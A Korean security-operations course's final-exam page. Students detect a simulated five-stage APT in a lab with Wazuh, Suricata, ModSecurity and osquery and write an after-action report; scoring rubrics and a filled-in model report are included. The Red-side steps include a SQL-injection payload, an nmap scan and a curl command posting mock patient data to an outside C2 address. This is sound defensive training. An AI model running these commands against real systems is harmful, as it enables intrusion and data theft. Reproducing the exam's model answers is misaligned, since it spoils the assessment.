

# Week 15 — 기말 — APT 5 단계 종합 대응 + 보고서 (180분)

> 본 주차는 secuops 과목의 **종합 평가** 이자 **수료**. W01-W14 의 5종 보안 솔루션
> + 호스트 가시화 + CTI 통합 운영 능력을 종합 평가. APT (Advanced Persistent Threat)
> 5 단계 시뮬에 대한 detection + 대응 + AAR 보고서.

## 1. 시험 개요

### 1.1 형식

```
시간: 180분 (3 시간)
   - 실기: 120 분 (5 단계 detect 검증)
   - 보고서: 60 분 (AAR 표준 양식)

점수: 5 단계 × 20점 = 100점
   - 단계 1 Recon  20
   - 단계 2 Initial Access  20
   - 단계 3 Lateral  20
   - 단계 4 C2 + Exfil  20
   - 단계 5 IR 보고서  20

도구: 6v6 의 모든 secuops 도구 + 인터넷 검색 (AI 어시스턴트 금지)
산출물: AAR (After-Action Report) 보고서 1+ 페이지
```

### 1.2 시험 환경

```
대상: 6v6 환경의 secuops 4 도구 (fw / ips / web / siem)
관측 도구: osquery 4 호스트 + Wazuh manager + dashboard
침투 시뮬 도구: attacker 컨테이너 (강사 또는 본인이 Red 역할)
시간: 본인 PC 에서 단독 진행 (시험관 monitoring)
```

---

## 2. APT 시나리오 (가상)

```
"K-APT 그룹이 한국 의료 데이터 탈취를 목적으로 6v6 환경의 mediforum.6v6.lab 을
 표적으로 한다. 다음 5 단계 침투 시도가 발생 — 본인은 SOC 분석가로서 5 단계
 모두 detection + 대응 + AAR 보고."

scope: 6v6 환경의 8 vuln + 4 인프라
schedule: 180분
deliverable: AAR (After-Action Report) 보고서
```

---

## 3. 5 단계 시나리오 상세

### 3.1 단계 1 (20점) — Reconnaissance

#### Red 행위 (시뮬)

```bash
# attacker 에서 50회 정찰 시도 (404 burst)
for i in {1..50}; do
    curl -s -o /dev/null \
        -A "Mozilla/5.0" \
        -H "Host: mediforum.6v6.lab" \
        "http://10.20.30.1/page-$i"
done
```

#### Blue 측 평가 항목

```
5점: Wazuh — Apache 404 burst alert (rule 31151 + frequency)
5점: Suricata — ET SCAN scanner detection (rule 86xxx)
5점: osquery — 비정상 curl process spawn (50 회)
5점: dashboard 의 alert burst pattern 분석
```

#### 검증 명령

```bash
# Wazuh 404 burst
ssh 6v6-siem 'sudo grep "31151\|31115" /var/ossec/logs/alerts/alerts.json | tail -10 | head -3 | jq ".rule.id, .rule.description"'

# Suricata scan
ssh 6v6-ips 'sudo tail -100 /var/log/suricata/eve.json | jq "select(.event_type==\"alert\" and (.alert.signature | tostring | test(\"SCAN\")))" 2>/dev/null | head -3'

# osquery curl process count
ssh 6v6-attacker 'sudo osqueryi --json "SELECT count(*) FROM processes WHERE name=\"curl\";"'
```

### 3.2 단계 2 (20점) — Initial Access (SQLi 시도)

#### Red 행위

```bash
# sqlmap UA + UNION SELECT 페이로드
curl -s -A "sqlmap/1.5" \
    -H "Host: juice.6v6.lab" \
    "http://10.20.30.1/api?q=admin UNION SELECT user,pass FROM medical"
```

#### Blue 측 평가 항목

```
5점: ModSec — 942100 (libinjection-SQLi) 매치 → 403
5점: Suricata — 9000xxx 사용자 정의 룰 매치 (W04 학습)
5점: Wazuh — rule 31125 (Apache 403) + CDB list 매치 (W13) → level 12
5점: timeline 분석 (T+0 sqlmap → T+0.1 ModSec → T+0.2 Wazuh)
```

#### 검증 명령

```bash
# ModSec 942 매치
ssh 6v6-web 'sudo tail -5 /var/log/apache2/modsec_audit.log | head -1 | \
    jq ".transaction.response.http_code, .transaction.messages[] | select(.id | startswith(\"942\")) | .msg"'

# Suricata sqlmap UA
ssh 6v6-ips 'sudo grep "sqlmap" /var/log/suricata/eve.json | tail -3 | head -1 | jq .alert'

# Wazuh integrated
ssh 6v6-siem 'sudo grep -E "sqlmap|942" /var/ossec/logs/alerts/alerts.json | tail -3 | head -1 | jq .rule, .data'
```

### 3.3 단계 3 (20점) — Lateral Movement (nmap scan)

#### Red 행위

```bash
# attacker 에서 dmz subnet 정찰
nmap -sT -p 22,80,443 10.20.32.0/24
```

#### Blue 측 평가 항목

```
5점: fw nftables — log prefix 또는 conntrack 의 SYN burst 흔적
5점: Suricata — ET SCAN nmap detection
5점: osquery — nmap process spawn (process_events daemon 모드 시)
5점: Wazuh — multi-source alert 통합 + level 7+
```

#### 검증 명령

```bash
# fw conntrack
ssh 6v6-fw 'sudo conntrack -L 2>/dev/null | grep "10.20.30.202" | head -5'

# Suricata scan
ssh 6v6-ips 'sudo tail -200 /var/log/suricata/eve.json | jq "select(.event_type==\"alert\" and (.alert.signature | tostring | contains(\"nmap\")))" 2>/dev/null | head -3'

# attacker 의 nmap process
ssh 6v6-attacker 'sudo osqueryi --json "SELECT * FROM processes WHERE name=\"nmap\" LIMIT 3;" 2>&1 | head'
```

### 3.4 단계 4 (20점) — C2 + Exfiltration 시도

#### Red 행위

```bash
# 가상 C2 IP 로 데이터 송신 시뮬 (CDB list 에 추가된 IP)
curl -s -X POST \
    -d "patient_data=PII_SAMPLE_$(date +%s)" \
    http://185.156.73.31:8080/c2 2>&1 | head
```

#### Blue 측 평가 항목

```
5점: CDB list (W13) 의 185.156.73.31 매치 → Wazuh rule 100300 (level 12)
5점: Suricata — ET CNC 룰셋 매치 (있다면)
5점: Active Response 활성 (W13) — fw drop 자동
5점: dashboard 의 critical alert burst 분석
```

#### 검증 명령

```bash
# Wazuh CDB 매치 (W13 의 100300)
ssh 6v6-siem 'sudo grep "100300\|185.156" /var/ossec/logs/alerts/alerts.json 2>/dev/null | tail -3 | head -1 | jq'

# Active Response 발생 검증
ssh 6v6-siem 'sudo tail -10 /var/ossec/logs/active-responses.log 2>/dev/null | head -3'

# fw 의 drop set 의 IP
ssh 6v6-fw 'sudo nft list set ip filter blocklist 2>/dev/null | head'
```

### 3.5 단계 5 (20점) — IR 통합 보고서

#### 산출물 — AAR (After-Action Report)

```markdown
# IR After-Action Report — K-APT 침투 시뮬 (W15 기말)

## 1. Executive Summary
본 보고서는 K-APT 그룹의 본 6v6 환경 대상 침투 시뮬 (5 단계) 의 detection + 대응
결과이다. 5 단계 모두 secuops 도구가 detect + 4 단계는 자동 차단. 침해 0건.

## 2. Engagement Overview
- 시작: 2026-MM-DD HH:MM
- 종료: 같은 날 + 30 분
- Adversary: K-APT (가상)
- Target: mediforum.6v6.lab (의료 데이터 모사)
- Operator: 본인 (SOC 분석가)

## 3. Timeline (5 단계)
| t | event | source | detection |
|---|-------|--------|-----------|
| T+0   | 404 recon (50 req) | Apache | Wazuh 31151 |
| T+30s | SQLi attempt | ModSec | 403 + 942100 |
| T+1m  | nmap scan | Suricata | ET SCAN |
| T+1.5m | C2 outbound | Wazuh | CDB list 100300 |
| T+2m  | IR 시작 + AR 동작 | SOC 분석가 + AR | fw drop |

## 4. MITRE ATT&CK Mapping
- T1595 Active Scanning (404 recon)
- T1190 Exploit Public-Facing (SQLi)
- T1046 Network Service Scanning (nmap)
- T1041 Exfiltration over C2 (outbound)

## 5. ISMS-P 2.12 만족도
- 2.12.1 사고 인지 — 5 단계 모두 alert 발생 (성공)
- 2.12.2 대응 체계 — 자동 차단 (ModSec) + 분석 (SOC 분석가)
- 2.12.3 사고 분석 — timeline 통합 (Wazuh + Suricata + ModSec)
- 2.12.4 사후 관리 — AAR 작성 + IOC 갱신 + Coverage Matrix

## 6. ATT&CK Coverage Matrix
| Tactic | Technique | Red | Blue | Coverage |
| TA0043 Recon | T1595 | ✓ | ✓ Wazuh + Suricata | 100% |
| TA0001 Initial Access | T1190 | ✓ | ✓ ModSec + Wazuh | 100% |
| TA0007 Discovery | T1046 | ✓ | ✓ Suricata | 100% |
| TA0011 C2 | T1071 | ✓ | ✓ CDB list + AR | 100% |
| TA0010 Exfiltration | T1041 | ✓ | ✓ AR 차단 | 100% |

총 Coverage: 100% (5/5)

## 7. 영향 분석
- 침해 0건 (모든 시도 차단)
- alert fatigue 5건 (분석가 부담 — acceptable)
- false-positive 0 (정확한 룰)
- 데이터 유출 0 byte

## 8. 운영 권장 (10건)
1. (즉시) CDB list 자동 갱신 cron 검증 (6시간 주기) — W13
2. (즉시) Active Response timeout 조정 (30분 → 1시간 검토)
3. (1주) Suricata threshold rate-limit (alert burst 시) — W05
4. (1주) ModSec paranoia 1 → 2 단계 상승 검토
5. (1개월) OpenCTI 본격 설치 + Sighting 등록 — W14
6. (1개월) sysmon-for-linux 4 호스트 설치 — W11
7. (분기) 분기별 false-positive 룰 review
8. (분기) ISMS-P 2.12 의 4 sub-control 갱신
9. (분기) KISA / K-ISAC IOC sharing
10. (반기) Coverage Matrix 5%+ 향상 목표

## 9. Lessons Learned
- 잘 된 점: 5 단계 모두 detect + 4 단계 자동 차단
- 개선: alert burst 시 SOC 분석가 burnout 의 risk → 자동화 강화 필요
- 다음 사이클: 분기 review 후 룰 강화 + 재 시뮬
```

#### 평가 항목 (단계 5 의 20점)

```
5점: AAR 의 7 섹션 완성도 + 양식 표준 준수
5점: Timeline 정확 + 각 단계의 detection 도구 매핑
5점: Coverage Matrix + 권장 우선순위
5점: ISMS-P + ATT&CK 매핑 + Lessons Learned
```

---

## 4. 평가 기준 매트릭스

| 점수 | 등급 | 의미 |
|------|------|------|
| 90+ | **A** | 수료 + advanced track (course14 soc-advanced) 자격 |
| 80-89 | **B+** | 수료 |
| 70-79 | **B** | 수료 |
| 60-69 | **C+** | 수료 (조건부 — 부분 재시험) |
| 50-59 | **C** | 부분 재시험 (W01-W14 의 약점 주차) |
| 50 미만 | **F** | 재수강 (다음 학기) |

총 100점.

---

## 5. 시험 진행 순서

### 5.1 시작 전 (5분)

```
1. bastion ProxyJump + 4 호스트 (fw / ips / web / siem) 접근 확인
2. 모든 도구의 가동 상태 (Wazuh + Suricata + ModSec + osquery)
3. CDB list 의 IOC 등록 확인 (W13 의 결과)
4. 답안 파일 생성: /tmp/final_secuops_<학번>.md
5. 시간 confirm
```

### 5.2 실기 (120분)

```
0-25분  : 단계 1 Recon (Red 시뮬 + Blue 검증)
25-50분 : 단계 2 Initial Access
50-75분 : 단계 3 Lateral
75-100분: 단계 4 C2 Exfil
100-120분: 단계 5 IR (Active Response 동작 확인)
```

### 5.3 보고서 (60분)

```
AAR 의 9 섹션 작성:
   1. Executive Summary
   2. Engagement Overview
   3. Timeline (5 단계)
   4. MITRE ATT&CK Mapping
   5. ISMS-P 2.12 만족도
   6. Coverage Matrix
   7. 영향 분석
   8. 운영 권장 (10건)
   9. Lessons Learned
```

### 5.4 시험 후

```
1. AAR 보고서 PDF 또는 Markdown 제출 (LMS / email)
2. 본인 환경 cleanup (30분 안에)
   - 추가한 CDB list / 룰 / Active Response 라인 모두 검토
   - 시뮬 시 만든 임시 파일 삭제
3. 시험 종료
```

---

## 6. R/B/P 시나리오 — 본 시험의 종합



본 시험에서 학생은 **SOC 분석가 = Blue Team** 의 역할 — 본 환경의 secuops 도구
운영 + alert 분석 + 침해 추적 + AAR 작성.

---

## 7. 시험 대비 — W01-W14 review (시험 직전)

```
W01 : 5 종 보안 솔루션 + 6v6 4-tier
W02-03 : nftables 방화벽 (정책 + DNAT)
W04-05 : Suricata IDS (룰 작성 심화)
W06 : ModSec WAF + CRS 941/942/930
W07 : osquery 호스트 가시화 + FIM
W08 : 중간고사 (5 시나리오)
W09-10 : Wazuh manager + agent
W11 : sysmon-for-linux 의 9 EventID
W12-14 : OpenCTI + Threat Hunting + KISA 공유
```

각 주차의 핵심 명령 1~2 개를 외워두면 시험 시간 단축.

---

## 8. 시험 후 학습 권장

### 8.1 모든 학생

- AAR 보고서 review + 강사 피드백 검토
- 못 푼 단계의 정답 분석
- W15 의 권장 10건 본인 환경 적용

### 8.2 A 등급 (advanced track)

- course14 soc-advanced — 고급 SIEM 상관분석 + SIGMA / YARA
- course5 soc — SOC 분석가의 day-to-day

### 8.3 C 이하 (재시험)

- 약점 주차의 lecture 재독
- W08 의 5 시나리오 다시 시도
- 본 시험의 5 단계 시뮬 재 실행

---

## 9. 본 과목 학습 마무리 — 15 주의 종합

### 9.1 학습한 내용

```
W01: 5 종 보안 솔루션 + 6v6 4-tier 인프라
W02-03: nftables 방화벽 (기초 + NAT)
W04-05: Suricata IDS (기초 + 룰 심화)
W06: Apache + ModSec WAF
W07: osquery 호스트 가시화 (신규)
W08: 중간고사
W09-10: Wazuh manager + agent (FIM / SCA / AR)
W11: sysmon-for-linux (신규)
W12-14: OpenCTI + CTI 통합 + Threat Hunting (신규)
W15: 기말 APT 5 단계 + AAR
```

### 9.2 본 과목의 가치

```
1. 5 종 보안 솔루션 운영 능력 (방화벽 / IDS / WAF / SIEM / 호스트 가시화)
2. CTI 통합 (W12-W14) — 모던 SOC 의 표준
3. R/B/P 시나리오 의 모든 주차 적용
4. 윤리적 운영 + 한국 표준 (ISMS-P / KISA / K-ISAC)
5. AAR 작성 + 운영 사이클의 표준화
```

### 9.3 수료 후 권장 학습 path

#### 자격증

- **CISA** (Certified Information Systems Auditor) — IT 감사
- **CISM** (Certified Information Security Manager) — 보안 관리
- **CompTIA Security+ / CySA+** — 입문 + SOC 분석
- **GIAC GMON / GCIH** — SANS, 보안 모니터링 / IH
- **한국 CISA / CPPG** — 한국 표준

#### 후속 course

- course5 soc — SOC 분석가
- course14 soc-advanced — 고급 SIEM
- course7 ai-security — 자동화 (Bastion)
- course19 agent-incident-response — AI Agent IR

#### 한국 보안 직군

- SOC 분석가 (Tier 1-3)
- 침해 대응 (IR) 분석가
- 보안 운영 엔지니어
- 위협 인텔리전스 분석가
- 한국 KISA 화이트해커 프로그램
- 안랩 / 이글루시큐리티 / SK인포섹 의 보안 컨설턴트

### 9.4 마치며

```
보안 솔루션 운영은 도구 사용이 아닌 **운영 사이클의 학습**.
정기 review + 룰 강화 + Coverage 향상 = 모던 SOC 의 본질.

본 학생이 다음 단계로 나아가길 권장:
  - 자격증 (Security+ 또는 CySA+)
  - 분기 hunt session + AAR 정기 작성
  - 한국 ISAC 회원 가입 + IOC sharing
  - 본 secuops 도구 의 본인 환경 (HackTheBox / TryHackMe / 학교 lab) 배포

보안 운영은 사람·도구·프로세스 의 균형.
지속 학습 + 윤리적 운영 + 산업 공유 → 한국 사이버보안의 발전.
```

---

## 10. 평가 기준 (W15 기말)

| 항목 | 비중 | 평가 방법 |
|------|------|----------|
| 단계 1 Recon | 20% | 3 도구 detection + dashboard 분석 |
| 단계 2 Initial Access | 20% | ModSec + Suricata + Wazuh 통합 |
| 단계 3 Lateral | 20% | nmap detect + 3 도구 매핑 |
| 단계 4 C2 + Exfil | 20% | CDB list 매치 + AR 활성 |
| 단계 5 IR + AAR | 20% | AAR 9 섹션 + 우선순위 권장 |

총 100점.

---

## 11. 마치며 — 본 과목 끝

```
secuops 의 15 주차 학습 종료.

본 학생이 secuops 도구의 운영 능력을 검증했다:
  - 5 종 보안 솔루션 (nftables / Suricata / ModSec / Wazuh / osquery)
  - 호스트 가시화 (osquery + sysmon)
  - CTI 통합 (OpenCTI / CDB list)
  - 침해 대응 (Active Response + AAR)

다음 단계 — 본 과목 + attack 과목 의 30 주 학습 후:
  → SOC 분석가 / 보안 엔지니어 / IR 분석가 의 첫 걸음
  → 자격증 + 정규 직무 경험
  → 한국 사이버보안의 표준 운영자

본인의 안전 + 학교의 신뢰 + 한국 사이버보안 의 발전을 위해
지속 학습 + 윤리적 운영 + 산업 공유 를 권장한다.
```
